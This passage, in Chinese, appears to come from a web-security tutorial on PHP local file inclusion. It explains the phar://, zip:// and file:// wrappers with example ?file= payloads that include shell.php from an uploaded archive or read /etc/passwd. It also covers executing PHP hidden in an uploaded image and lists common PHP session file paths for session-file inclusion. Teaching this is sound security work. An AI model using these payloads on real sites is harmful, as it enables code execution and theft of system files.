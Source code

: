 > 注意：PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行

用法

    phar://压缩包/内部文件
    
举例

    ?file=phar://xxx.png（压缩包）/shell.php （内部文件）
    
##### zip协议

zip伪协议和phar协议类似，但是用法不一样。

用法

    zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
    
举例

    ?file=zip://xxx.png#shell.php
    
##### file协议

访问本地文件系统

举例

    file:// [文件的绝对路径和文件名]
    ?file=/etc/passwd

#### 包含图片

    上传的图片中写入恶意代码，然后用 LFI（Local File Inclusion） 包含调用，就会执行图片里的PHP代码
    
### session文件包含

#### 前提

session的存储位置可以获取

session中的内容可以被控制，传入恶意代码

> 其中session位置的获取有两种方式
>
> 通过phpinfo的信息可以获取到session的存储位置
>
> 也可以通过猜测，因为就那几个固定的存储位置
>
> 例如：/var/lib/php5/sessions
>
> /var/lib/php7/sessions
>
> /var/lib/php/sessions
>
> /var/lib/php/sess_PHPSESSID
>
> /var/lib/php/sess_PHPSESSID
>
> /tmp/sess_PHPSESSID
>
> /tmp/sessions/sess_PHPSESSID
>
> session的文件名格式为`sess_[phpsessid]`。而phpsessid在发送的请求的cookie字段中可以看到。
